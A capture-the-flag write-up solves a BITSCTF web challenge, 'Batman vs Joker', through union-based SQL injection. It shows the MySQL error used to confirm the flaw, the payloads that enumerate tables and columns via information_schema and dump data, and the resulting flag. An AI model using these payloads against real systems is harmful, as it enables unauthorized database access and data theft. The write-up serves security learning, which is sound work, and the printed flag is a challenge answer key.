


# Batman vs Joker

## Description

Joker has left a message for you. Your job is to get to the message asap.

joking.bitsctf.bits-quark.org

## Solution

First of all, in this challenge I used two firefox useful complements: Firebug and Hackbar :) (I really like these complements).

I initiated the challenge analysis guessing the required ID at the index, and obviously, the value 1 was found.



With the firebug, I was able to get the full request and its parameters. Following the context, I had an idea that the challenge was related with SQL Injection, so, I confirmed the vulnerability forcing some error in the page with an incorrect parameter value. The result:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

The next step is try to get more information about the challenge database, the payload which has worked, had this structure: *1' <b>injection</b> #*.

An important information about SQL Injection is always try to know about the database version, for example, in this case I was able to use [information_schema](https://dev.mysql.com/doc/refman/5.7/en/information-schema.html) because we were exploiting a 5 > mysql version environment.



In the following commands, I used information_schema to get the tables from current database, the columns and dump the data.

Tables:
```php
id=1' union select 1,table_name from information_schema.tables where table_schema=database() #&submit1=submit 

First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker

```

Columns:
```php
id=1' union select 1,column_name from information_schema.columns where table_name='Joker' #&submit1=submit

First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Dumping the data:
```php
id=1' union select 1,concat_ws(':',Flag,HaHaHa) from Joker #&submit1=submit

First name:1
Surname: BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}:Enjoying the game Batman!!!
```

Flag: BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}